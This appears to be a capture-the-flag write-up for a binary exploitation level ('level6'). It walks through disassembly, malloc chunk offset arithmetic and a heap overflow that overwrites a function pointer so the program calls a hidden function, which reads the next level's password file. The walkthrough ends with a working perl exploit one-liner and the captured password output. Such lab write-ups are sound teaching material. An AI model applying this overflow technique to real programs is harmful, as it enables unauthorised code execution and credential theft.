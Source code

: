 # level6

```bash
> objdump -d level6
...
08048454 <n>:
 8048454:	55                   	push   %ebp
 8048455:	89 e5                	mov    %esp,%ebp
 8048457:	83 ec 18             	sub    $0x18,%esp
 804845a:	c7 04 24 b0 85 04 08 	movl   $0x80485b0,(%esp)
 8048461:	e8 0a ff ff ff       	call   8048370 <system@plt>
 8048466:	c9                   	leave
 8048467:	c3                   	ret
...
```
```c
void	n() {
	system("/bin/cat /home/user/level7/.pass");
	return;
}
```
> view the `Ressources/main.asm` and `source` files for the disasembly part

Interesting we can see a function `n` that is never called, let's try to call it.

---

```
> ./level6 AAA
Nope
> ./level6 `perl -e 'print "A"x64'`
Nope
> ./level6 `perl -e 'print "A"x80'`
Segmentation fault (core dumped)
```

If we disass the executable, we can see that we have 2 malloc call. (64 bytes & 4 bytes).

The first malloc is filled at the end of the program in a strcpy (it take the value of argv[1]).

The second malloc is a pointer on the function `m`. It is called at the end of the program (after the strcpy).

---

The goal is to replace the ptr by a ptr on the function `n`. To do this, we have to overflow argv[1].

```c
char *str = malloc(64);  // if addr is 0
void *fPtr = malloc(4);   // then addr is 0 + 64(size) + 8(offset)

fPtr = &m;  // fPtr point on function m, we want to modify this value

strcpy(str, argv[i]); // copy arg to str

(*fPtr)();  // call the function pointed by fPtr (m)
```

if we overflow the first malloc we can achieve to change the fPtr value

malloc:
```
"...
The first (4-byte) field of each chunk give its size, and since the size is guaranteed to be divisible by 8.
...
when the user asks for size n, the chunk size will be not less than the smallest multiple of eight above n+4.
..."
```
> https://www.win.tue.nl/~aeb/linux/hh/hh-11.html

Let's calculate malloc offset

- (4 + alignmentOffset) = 0
- ~~(4 + 0) % 8 = 4~~
- (4 + 4) % 8 = 0

---

Exploit

64bytes (str value) - 8bytes (offset btw 2 malloc) - 4bytes (fPtr value) - ...

```
# in this example, A is used to fill the str, B to fill the offset and then we can change ptr
> ./level6 `perl -e 'print "A"x64 . "B"x8 . "\x54\x84\x04\x08"'`
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```